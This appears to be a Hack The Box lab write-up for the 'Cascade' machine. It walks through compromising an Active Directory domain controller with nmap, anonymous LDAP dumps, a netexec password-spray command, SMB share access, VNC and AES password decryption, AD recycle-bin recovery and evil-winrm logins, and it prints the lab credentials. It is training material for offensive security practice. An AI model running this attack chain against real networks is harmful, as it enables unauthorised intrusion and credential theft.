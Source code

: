 ```yaml
---
layout: post
title: HTB - cascade
date: 2025-05-15 09:45 -0400
---
```


```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2025-05-06 09:35 -04
Nmap scan report for 10.10.10.182
Host is up (0.16s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-06 13:35:26Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-06T13:36:19
|_  start_date: 2025-05-06T13:33:07
| smb2-security-mode: 
|   210: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 104.42 seconds
```

domain:
- cascade.local

nothing on udp

Anonymous login works for ldap. Will dump everything + bloodhound.

bloodhound doesn't want to work with anonymous login.

time to take the users and try `users:users` after cleaning up the names.
```bash
netexec smb $(cat ip.txt) -u users.txt -p users.txt --shares --continue-on-success --no-bruteforce
```

no luck. will explore users descriptions on ldap.
- CASC-DC1.cascade.local
- is the pc name I think

password not required gives a user. but it doesn't work
```bash
netexec ldap $(cat ip.txt) -u '' -p ''  --password-not-required
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
LDAP        10.10.10.182    389    CASC-DC1         [+] cascade.local\:
LDAP        10.10.10.182    389    CASC-DC1         User: a.turnbull Status: enabled
LDAP        10.10.10.182    389    CASC-DC1         User: CascGuest Status: disabled
```

checking every ldap attribute for something interesting:
```bash
for user in $(cat users_valid.txt); do echo $user;  netexec ldap $(cat ip.txt) -u '' -p '' --query "(sAMAccountName=$user)" ""; done
```

r.thompson has one: `cascadeLegacyPwd:    clk0bjVldmE= (rY4n5eva)`
now we get a tgt and try bloodhound

nothing much on it
![cascade1](/assets/img/cascade1.png)

smb looks more interesting:
```bash
~/workspace/projects/htb/cascade » netexec smb $(cat ip.txt) -u r.thompson -p 'rY4n5eva' --shares
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva
SMB         10.10.10.182    445    CASC-DC1         [*] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share
----------------------------------------------------------------------------------------------------------------
```

Can't read stuff for some reason.

try same password on every user. Didn't work.

It was skill issue, now I can read stuff:
```bash
smbclient -U 'casc-dc1.cascade.local/r.thompson%rY4n5eva' "//Casc-DC1.cascade.local/Data"
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jan 26 23:27:34 2020
  ..                                  D        0  Sun Jan 26 23:27:34 2020
  Contractors                         D        0  Sun Jan 12 21:45:11 2020
  Finance                             D        0  Sun Jan 12 21:45:06 2020
  IT                                  D        0  Tue Jan 28 14:04:51 2020
  Production                          D        0  Sun Jan 12 21:45:18 2020
  Temps                               D        0  Sun Jan 12 21:45:15 2020
```

Available files:

- "IT/Email Archives/Meeting_Notes_June_2018.html"
- "IT/Logs/Ark AD Recycle Bin/ArkAdRecycleBin.log"
- "IT/Logs/DCs/dcdiag.log"
- "IT/Temp/s.smith/VNC Install.reg"

TODO:
way to crawl smb filtering by filesize and downloading it

Some interesting stuff, ben plays too much.
![cascade2](/assets/img/cascade2.png)

`Username is TempAdmin (password is the same as the normal admin account password).`

There is a password on `VNC Install.reg`. Maybe the password is the literal hex? since some chars are outside ascii range
```bash
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f ()
```

Doesn't seem to work.

Actually the password is encrypted and you can decrypt with `vncpasswd.py`
```bash
~/workspace/projects/htb/cascade » docker run -v ./:/app/ -ti trinitronx/vncpasswd.py -d -H '6bcf2a4b6e5aca0f'Decrypted Bin Pass= 'sT333ve2'
Decrypted Hex Pass= '7354333333766532'
```

password works for s.smith:
```bash
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2
```

and he has winrm access
![cascade3](/assets/img/cascade3.png)

```bash
*Evil-WinRM* PS C:\Users\s.smith\Desktop> type user.txt
dfe61***************************
```

We probably need to recover the TempAdmin from bin, maybe use internal vnc. Will do my enum anyway.
Nothing interesting on the machine.

Steve can read the 'Audit$'. Some reversing maybe?
```bash
~/workspace/projects/htb/cascade » smbclient -U 'casc-dc1.cascade.local/s.smith%sT333ve2' "//Casc-DC1.cascade.local/Audit$"
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 29 14:01:26 2020
  ..                                  D        0  Wed Jan 29 14:01:26 2020
  CascAudit.exe                      An    13312  Tue Jan 28 17:46:51 2020
  CascCrypto.dll                     An    12288  Wed Jan 29 14:00:20 2020
  DB                                  D        0  Tue Jan 28 17:40:59 2020
  RunAudit.bat                        A       45  Tue Jan 28 19:29:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 02:38:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 02:38:38 2019
  x64                                 D        0  Sun Jan 26 18:25:27 2020
  x86                                 D        0  Sun Jan 26 18:25:27 2020
```

arksvc password
```bash
sqlite> select * from Ldap;
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
```

outside ascii, maybe its also encrypted?
will have to check the .exe

ILSpy looks awful on linux. But we have the whole decryption flow here.
- key: c4scadek3y654321
- iv: 1tdyjCbY1Ix49842
![ILSpy 1](/assets/img/cascade4.png)
![ILSpy 2](/assets/img/cascade5.png)

password: w3lc0meFr31nd

arksvc has access to the ad recycle bin, so we can recover TempAdmin. But how to get its password?
![bloodhound](/assets/img/cascade7.png)

turns out it has a cascadeLegacyPwd also:
```bash
Get-ADObject -Filter 'sAMAccountName -eq "TempAdmin"' -IncludeDeletedObjects -Properties *
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz (baCT3r1aN00dles)
```

so this should be the admin password according to the meeting thingy.

```bash
~/workspace/projects/htb/cascade » evil-winrm -i $(cat ip.txt) -u 'Administrator' -p 'baCT3r1aN00dles'
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
7e03f***************************
```
